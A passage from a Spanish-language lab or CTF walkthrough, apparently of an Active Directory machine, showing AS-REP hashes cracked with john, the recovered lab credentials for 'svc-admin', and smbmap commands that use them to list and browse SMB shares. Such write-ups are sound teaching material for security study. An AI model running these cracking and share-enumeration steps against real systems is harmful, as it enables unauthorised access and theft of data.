 De igual forma, podemos utilizar john si nos gusta más. 

```bash
john --format=krb5asrep --wordlist=passwordlist.txt hashes.txt
john --show hashes.txt
```

![Imagen011](11.jpeg)

```
Usuario: svc-admin
Contraseña: management2005
```


Una vez tenemos credenciales válidas, podemos tratar de conectarnos mediante smbmap o smbclient, para ver si podemos ver recursos compartidos o archivos interesantes. La ventaja de smbmap sobre smbclient, es que el primero nos listará los permisos que tenemos sobre cada uno de los recursos compartidos. 

```bash
smbmap -u <Usuario> -p <Contraseña> -H <IP_Objetivo>
```

![Imagen012](12.jpeg)

Si revisamos el recurso backup, veremos algo interesante que vamos a proceder también a descargar a nuestro equipo.

```bash
smbmap -u <Usuario> -p <Contraseña> -H <IP_Objetivo> -r <Recurso>
```
